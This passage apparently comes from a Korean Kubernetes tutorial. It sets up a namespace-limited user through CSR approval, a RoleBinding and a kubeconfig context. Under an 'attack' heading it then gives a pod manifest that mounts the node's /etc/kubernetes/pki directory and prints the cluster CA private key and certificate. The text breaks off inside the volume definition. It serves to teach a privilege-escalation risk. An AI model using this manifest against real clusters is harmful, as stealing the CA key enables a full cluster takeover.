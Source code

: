 #### CSR 승인

방금 만든 CSR 확인.

```
kubectl get csr
```

CSR을 승인하여 사용자의 인증서를 생성한 다음, 인증서를 파일로 저장하자.

```
kubectl certificate approve gooduser-csr
kubectl get csr gooduser-csr -o jsonpath='{.status.certificate}' | base64 -d > gooduser.crt
```

#### 역할 및 권한 할당

`default` 네임스페이스에서 **RoleBinding** 생성. Role은 그냥 원래 있던 `admin`을 갖다 쓴다.

```
kubectl create rolebinding owner-gooduser --clusterrole=admin --user=gooduser --namespace=default
```

kubeconfig 구성. 클러스터는 본인의 환경에 맞게 설정한다.

```
kubectl config set-credentials gooduser --client-key=gooduser.key --client-certificate=gooduser.crt --embed-certs
kubectl config set-context gooduser --cluster=kind-kind --user=gooduser
kubectl config use-context gooduser
```

이제부터 우리는 관리자가 아니라 *gooduser*로써 kubectl 클라이언트를 사용하게 된다.

사용자 gooduser는 *default* 네임스페이스의 모든 리소스에 대한 권한을 가진다. 하지만 다른 네임스페이스나 클러스터 수준의 리소스에는 접근할 수 없다.

```
$ kubectl get pod
No resources found in default namespace.

$ kubectl get pod -n kube-system
Error from server (Forbidden): pods is forbidden: User "gooduser" cannot list resource "pods" in API group "" in the namespace "kube-system"
```

> 사실 굳이 `admin` Role을 줄 것 까지도 없다. `pods`, `pods/exec` 및 `pods/log` 리소스에 대한 권한만 있어도 충분하다. 여기선 그냥 Role 하나 더 만들기 귀찮아서 원래 있는 Role을 사용했다.

### 공격하기

아래 YAML 구성 파일로 Pod를 생성해본다.

```yaml
# pod-doggo-simple.yaml
apiVersion: v1
kind: Pod
metadata:
  name: doggo
spec:
  containers:
  - name: alpine
    image: alpine
    command:
    - sh
    - -c
    - cat /etc/kubernetes/pki/ca.key; cat /etc/kubernetes/pki/ca.crt; sleep 99999;
    volumeMounts:
    - mountPath: /etc/kubernetes/pki
      name: k8s-certs
  volumes:
  - name: k8s-certs
```